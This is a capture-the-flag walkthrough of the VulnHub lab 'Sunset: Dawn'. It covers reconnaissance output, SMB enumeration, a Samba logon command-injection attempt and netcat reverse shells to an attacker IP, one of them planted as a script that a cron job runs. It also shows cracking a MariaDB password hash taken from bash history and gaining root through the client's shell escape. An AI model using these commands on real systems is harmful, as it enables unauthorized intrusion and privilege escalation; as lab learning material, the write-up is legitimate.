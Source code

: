 # Sunset: Dawn

https://www.vulnhub.com/entry/sunset-dawn,341/

1. Used netdiscover to find the machine - it was `PCS Systemtechnik GmbH` on the local network
2. Running a `nmap -T4 -A -v` against the machine resulted in:

```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 13
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, Support41Auth, SupportsCompression, IgnoreSigpipes, Speaks41ProtocolNew, Speaks41ProtocolOld, ODBCClient, InteractiveClient, FoundRows, SupportsTransactions, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ConnectWithDatabase, LongColumnFlag, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: cAY~.f;3.*'%%*@G"p1A
|_  Auth Plugin Name: mysql_native_password
```

3. I ran dirb and nikto on the web site, but they found little:

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.165
+ Target Hostname:    192.168.1.165
+ Target Port:        80
+ Start Time:         2020-03-14 01:25:02 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type                                   
+ No CGI Directories found (use '-C all' to force check all possible dirs)                                                                                                                  
+ Server may leak inodes via ETags, header found with file /, inode: 317, size: 58f2eb81ffb49, mtime: gzip                                                                                  
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD                                                                                                                                            
+ OSVDB-3268: /logs/: Directory indexing found.                                                                                                                                             
+ OSVDB-3092: /logs/: This might be interesting...                                                                                                                                          
+ OSVDB-3233: /icons/README: Apache default file found.                                                                                                                                     
+ 7915 requests: 0 error(s) and 8 item(s) reported on remote host                                                                                                                           
+ End Time:           2020-03-14 01:27:23 (GMT-4) (141 seconds)                                                                                                                             
---------------------------------------------------------------------------                                                                                                                 
+ 1 host(s) tested
```

The log folder contained auth, daemon, error and management .log files. Only the management file could be read (the others returned a 403):

`Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...`

Dirb running with its default list found the logs folder. When run with the big.txt wordlist it found two more things, both throwing 403:

```
---- Scanning URL: http://192.168.1.165/ ----
==> DIRECTORY: http://192.168.1.165/cctv/                                                                                                                                                  
==> DIRECTORY: http://192.168.1.165/logs/                                                                                                                                                  
+ http://192.168.1.165/server-status (CODE:403|SIZE:301)                                                                                                                                   
                                                                                                                                                                                           
---- Entering directory: http://192.168.1.165/cctv/ ----
(!) WARNING: All responses for this directory seem to be CODE = 403.                                                                                                                       
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                           
---- Entering directory: http://192.168.1.165/logs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.           
```

## SMB

There are two smb shares visible via nmap. I ran `smbclient -L <ip address>` to see the following:
  
```
  Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)

```

The print share could not be accessed, the ITDEPT share was empty, and the IPC dir allowed access but no commands.

I tried creating a reverse shell via the `logon` command (`logon "/=``nc <kali ip> 4444 -e /bin/bash``"`) but it didn't work. Felt a bit stuck at this point.

## management.log and reverse shell

I wget/catted the management log file again, and found a mass of entries. Including this:

```
2020/03/14 22:41:01 CMD: UID=1000 PID=679    | /bin/sh -c /home/dawn/ITDEPT/product-control 
2020/03/14 22:41:01 CMD: UID=0    PID=676    | /bin/sh -c chmod 777 /home/dawn/ITDEPT/web-control 
```

So I put `nc 192.168.1.78 7777 -e /bin/sh` into a file called product control, then uploaded it to the smb drive. Half a minute later I had a reverse shell as dawn. I used `python -c "import pty;pty.spawn('/bin/bash');"` to get a better interface.

## mysql creds

`sudo -l` showed dawn had access to mysql, however sudo running this still gave access denied on the database with no password. I floated around and opened the bash history for dawn, finding lots of stuff including:

```
echo "$1$$bOKpT2ijO.XcGlpjgAup9/"
sudo -l 
su 
sudo -l 
sudo mysql -u root -p
```

Taking that hash to kali and cracking it with `sudo john --wordlist=/usr/share/wordlists/rockyou.txt mysqlpwd.txt` returned `onii-chan29`. 

## mariaDB privesc and win

The above password worked on mysql, which dropped me into the mariadb client. Poking around in the database didn't do too much for me, so I investigated running commands. `! bash` is the common syntax, but thats for the newer mysql client. For mariadb, the syntax is `\! bash;`, which dropped me to a root shell!

Catting the flag under /root returned:

```
Hello! whitecr0wz here. I would like to congratulate and thank you for finishing the ctf, however, there is another way of getting a shell(very similar though). Also, 4 other methods are available for rooting this box!

flag{3a3e52f0a6af0d6e36d7c1ced3a9fd59}
```